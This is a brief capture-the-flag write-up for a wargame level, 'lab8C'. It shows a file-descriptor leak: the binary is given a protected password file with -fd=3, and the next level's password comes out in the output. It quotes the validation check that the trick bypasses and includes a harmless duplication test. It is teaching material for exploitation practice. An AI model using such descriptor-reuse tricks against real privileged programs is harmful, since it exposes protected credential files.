 # lab8C
> After the first three standard file descriptors, each additional file descriptor will be increased by one.(e.g. 3, 4, 5, etc.). 
> http://www.phearless.org/istorija/razno/fdleak.txt

### Solution
```bash
lab8C@warzone:/levels/lab08$ ./lab8C -fn=/home/lab8B/.pass -fd=3
"<<<For security reasons, your filename has been blocked>>>" is lexicographically equivalent to "3v3ryth1ng_Is_@_F1l3
"
```

### Description
File descriptor: 
```sh
fd = 3
```
bypasses:
```c
if(fd1 == 0 || fd2 == 0)
	{
		printf("Invalid fd argument.\n");
		printf("(We're still fixing some bugs with using STDIN.)\n");
		printf("Usage: %s {-fn=<filename>|-fd=<file_descriptor>} {-fn=<filename>|-fd=<file_descriptor>}\n", argv[0]);
		return EXIT_FAILURE;
	}
```

Duplication:
```sh
lab8C@warzone:/levels/lab08$ echo 'ABCDE_123' > /var/tmp/abc2.txt && ./lab8C -fn=/var/tmp/abc2.txt -fd=3
"ABCDE_123
" is lexicographically equivalent to "ABCDE_123
"
```